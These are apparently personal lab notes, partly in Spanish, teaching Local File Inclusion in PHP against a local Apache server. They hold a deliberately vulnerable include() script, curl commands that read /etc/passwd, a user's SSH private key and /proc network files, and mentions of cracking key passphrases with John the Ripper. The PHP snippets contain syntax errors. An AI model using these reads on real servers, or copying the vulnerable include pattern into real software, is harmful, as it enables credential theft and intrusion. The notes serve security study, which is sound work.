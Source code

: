 What is an LFI?
What is it? LFI vulnerabilities (Local File Inclusion or inclusion of local files) are vulnerabilities that allow reading any file that is inside the same server, even if the file is outside the web directory where the page is hosted.




Lets open apache server on the folder /var/www/html




service apache2 start 

lsof -i:80 (to see if the service is running)


nano example.php

```
<?php 
 $filename =$_GET['file'] // ?file=test.txt
 include($filename)
?>

```

lets create now another file called test.txt

So, what can we do with this? for example
```
curl -s "http://http://localhost/example.php?file=/etc/passwd" | grep "sh$" 
```
-s (silent, no verbose)
(this is like a cat command with bash)

I can see al the users that are valid users of the system.

I can do for example a search of the ssh key of cds
```
/home/cds/.ssh/id_rsa
```


Esta es una clave privada ssh y si se la ha pasado al "ssh copy id" a este par de claves "igual es una clave autorizada" que puede servir para conectarse a la maquina sin proporcionar passwd . 
Pero si estuviera protegida por contraseña podriamos usar ssh to john con john the ripper y obtener el hash equivalente e intentar obtener la contraseña con la clave id rsa.

Nos va a pedir la contraseña y la introducimos, seria la que previamente habriamos crackeado por fuerzabruta (no es la del usuario)

Mas adelante vamos a ver ejecucion remota de comandos con LOG-POISONING




And now we can still following enumerating things on the system , for example process 


(this is not on my computer, maybe is on other older distributions of linux) INVESTIGATE MORE ABOUT THIS
```
http://localhost/example.php?file=/proc/sched_debug
```

Another important one is 
```
localhost/example.php?file=/proc/net/fib_trie
```

This is for enumerate the internal network of the machine

```
curl -s "http://localhost/example.php?file=/proc/net/fib_trie" | grep -i "host local" -B 1
```

this shows my ip.

Now we are going to grep only by the number of the ip with a regular expression

```
curl -s "http://localhost/example.php?file=/proc/net/fib_trie" | grep -i "host local" -B 1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}'
```

to eliminate the repetitions oof the ips we do this

```
curl -s "http://localhost/example.php?file=/proc/net/fib_trie" | grep -i "host local" -B 1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u
```

ANOTHER IMPORTANT FILE THAT WE CAN SEE IS THE:  proc net tcp
you can see the internal ports working on the machine (SSRF) all of them in  hexadecimal
```
/proc/net/tcp
```

if you want to filter the ports
```
curl -s "http://localhost/example.php?file=/proc/net/tcp" | awk '{print $2}' | grep -v 'local_address' | awk '{print$2}' FS=":" | sort -u
```
awk= takes an argument(in this case the second argument)
grep -v =(-v eliminates an argument in this case 'local_adress')
awk = takes the second argument FS=":" takes as a reference the : as delimiter of arguments
sort -u = deletes repetitions

Now he is doing a for cycle representing the ports to decimal

```
for port in $(curl -s "http://localhost/example.php?file=/proc/net/tcp" | awk '{print $2}' | grep -v 'local_address' | awk '{print$2}' FS=":" | sort -u) ;do echo "[$port] -> Puerto $(echo "ibase=16; $port" | bc)"; done
```

"ibase=16; $port" | bc (this translates the hexadecimal to decimal)
bc= calculates stuff

## NOTE: The machines haves some protections , watching of firewall and sometimes you cannot see things outside of the LAN ##


This is a way of sanitization (still vulnerable to path traversal) that we specify that the archive must be on the route /var/www/html
```
<?php 
 $filename = $_GET['file'];
 include("/var/www/html" . $filename);
?>
```

we can add an extension too
```
<?php 
 $filename = $_GET['file'];
 include("/var/www/html" . $filename .txt);
?>
```